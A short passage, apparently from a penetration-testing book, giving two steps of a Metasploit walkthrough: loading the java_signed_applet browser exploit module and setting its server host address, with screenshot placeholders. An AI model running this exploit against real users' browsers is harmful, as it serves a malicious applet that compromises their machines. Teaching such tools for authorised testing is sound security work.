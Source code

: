 3.  Then type `use exploit/multi/browser/java_signed_applet`:

    ![Metasploit](img/3183OS_08_26.jpg)

4.  Now type `set SRVHOST <IPADDRESS>`:

    ![Metasploit](img/3183OS_08_27.jpg)
